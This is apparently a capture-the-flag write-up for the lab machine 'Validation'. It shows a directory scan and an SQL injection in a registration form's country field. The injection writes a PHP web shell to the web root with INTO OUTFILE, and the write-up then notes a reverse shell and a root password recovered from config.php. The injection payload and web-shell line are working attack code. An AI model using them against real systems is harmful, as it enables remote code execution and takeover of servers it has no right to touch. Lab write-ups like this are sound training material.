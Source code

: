 # Validation

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (87) (1) (3).png" alt=""><figcaption></figcaption></figure>

### SQL Injection for RCE

The website contains a simple register function that takes user input.

<figure><img src="../../../.gitbook/assets/image (98) (4).png" alt=""><figcaption></figcaption></figure>

When proxying the traffic, the POST request is submitted like so:

```http
username='&country=Afganistan
```

When viewing our request, this is what we would see:

<figure><img src="../../../.gitbook/assets/image (85) (2).png" alt=""><figcaption></figcaption></figure>

A quick directory scan reveals there is an `account.php` endpoint on the machine.&#x20;

```
$ feroxbuster -u http://10.10.11.116 -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.116
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      309c http://10.10.11.116/js
200        0l        0w        0c http://10.10.11.116/config.php
301        9l       28w      310c http://10.10.11.116/css
200        1l        2w       16c http://10.10.11.116/account.php
200      268l      747w        0c http://10.10.11.116/index.php
403        9l       28w      277c http://10.10.11.116/server-status
```

The `config.php` endpoint presented an empty screen, which I think we have to look into after gaining a shell. Anyways, the `account.php` file displayed an SQL error when trying to view the player I registered.

<figure><img src="../../../.gitbook/assets/image (106) (3).png" alt=""><figcaption></figcaption></figure>

Instead of enumerating the database, I directly wrote a webshell into the page.

{% code overflow="wrap" %}
```http
username=a&Afganistan' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/cmd.php';#
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (103) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can get a reverse shell and enumerate the `config.php` file we saw earlier.

## Privilege Escalation

Within the config file, there was a password, which happened to be the root password.

<figure><img src="../../../.gitbook/assets/image (105) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (109) (3).png" alt=""><figcaption></figcaption></figure>
